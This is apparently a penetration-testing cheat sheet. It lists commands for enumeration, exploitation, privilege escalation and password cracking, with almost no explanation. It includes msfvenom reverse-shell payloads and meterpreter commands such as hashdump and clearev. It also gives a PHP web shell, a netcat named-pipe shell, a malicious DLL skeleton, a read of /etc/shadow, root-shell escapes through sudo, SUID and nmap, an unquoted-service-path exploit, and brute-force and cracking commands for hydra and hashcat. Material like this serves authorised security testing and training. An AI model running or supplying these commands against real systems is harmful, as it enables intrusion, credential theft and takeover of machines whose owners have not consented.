 # Enumeration
## NMAP
```
SSH:
nmap -n -p22 --script ssh-brute \
```
```
HTTP:
nmap --script http-enum targetIP \
nmap -n -p 80 --script -http-grep \
```
```
SMB:
nmap -p 445 --script-os-discovery targetIP
nmap -sV -p 445 --script smb-brute targetIP
nmap -n -p139,445 --script=smb-enum-users --script-args=smbusername="",\
```
## Gobuster
```
gobuster dir --url {{https://example.com/}} --wordlist {{path/to/file}}
gobuster dns --domain {{example.com}} --wordlist {{path/to/file}}
```
## Ffuf
```
ffuf -w {{path/to/wordlist}} -u {{https://target/FUZZ}} -c -v
ffuf -w {{hosts.txt}} -u {{https://example.org}} -H "{{Host: FUZZ}}" -mc {{200}}
ffuf -w {{subdomains.txt}} -u {{https://website.com}} -H "{{Host: FUZZ.website.com}}"
```

## Searching files
```cmd
findstr /si password *.txt
```

## Patch Level
```ps
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

## Scheduled Tasks
```ps
schtasks /query /fo LIST /v
```

## Windows Services and Software
```ps
wmic service list brief| findstr "Running"
sc qc
wmic product get name,version,vendor
```

## Base64
```
LFILE=/etc/shadow
base64 "$LFILE" | base64 --decode
```
# Exploitation
## Metasploit
```
MSFVENOM:
msfvenom -l
msfvenom -p {{payload}} --list-options
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=xxxx -f elf > rev_shell.elf
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST={{local_ip}} LPORT={{local_port}} -f exe > {{path/to/binary.exe}}
Staged vs Stageless:
windows/x64/meterpreter/reverse_tcp vs. windows/x86/meterpreter_reverse_tcp

```

```
Meterpreter commands:
upload
getuid
PS
migrate
getsystem
hashdump
shell
search
clearev
sysinfo
```
```
CMD commands:
dir
type
```

## Python
```

```

```

```
## netcat
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
```
stty raw -echo; fg
reset
export SHELL=bash
export TERM=xterm256-color
stty rows 38 columns 116
```
```

```

## Skeleton DLL Code
```
#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("cmd.exe /k whoami > C:\\Temp\\dll.txt"); # edit this line
        ExitProcess(0);
    }
    return TRUE;
}
```

## PHP
```
`<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>`
**ex**: /shell.php?cmd=
webshells dir: */usr/share/webshells*
```

## Creating Named Pipes
```bash
`mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`
```

## SUDO
```bash
find . -exec /bin/bash \; -quit
```

## SUID
```
`find / -type f -perm -04000 -ls 2>/dev/null'
```

## NMAP
```
1. TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
nmap --script=$TF

2. sudo nmap --interactive
 nmap> !sh
```

## Unquoted Service Path
```
sc qc unquotedsvc
msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f exe > common.exe

Python3 -m http.server 4444

Get-service -Name unquotedsvc | Restart-Service
```

## AlwaysInstallElevated
```ps
`reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer`  
`reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`
```


# Password cracking

```
HASHCAT:
hashcat --hash-type {{hash_type_id}} --attack-mode {{3}} {{hash_value}}
hashcat --hash-type {{hash_type_id}} --attack-mode {{1}} {{hash_value}} {{/path/to/dictionary1.txt}} {{/path/to/dictionary2.txt}}
hashcat --hash-type {{hash_type_id}} --attack-mode {{0}} {{hash_value}} {{/usr/share/wordlists/rockyou.txt}}
hashcat --hash-type {{hash_type_id}} --attack-mode {{3}} --increment {{hash_value}} "{{?a?a?a?a?a?a?a?a}}"
hashcat --show {{hash_value}}
```
```
Hydra:
hydra -l {{username}} -P {{path/to/wordlist.txt}} {{host_ip}} {{ssh}}
hydra -L {{path/to/usernames.txt}} -P {{path/to/wordlist.txt}} -t {{n_tasks}} {{host_ip}} {{ftp}}

```

## Extras





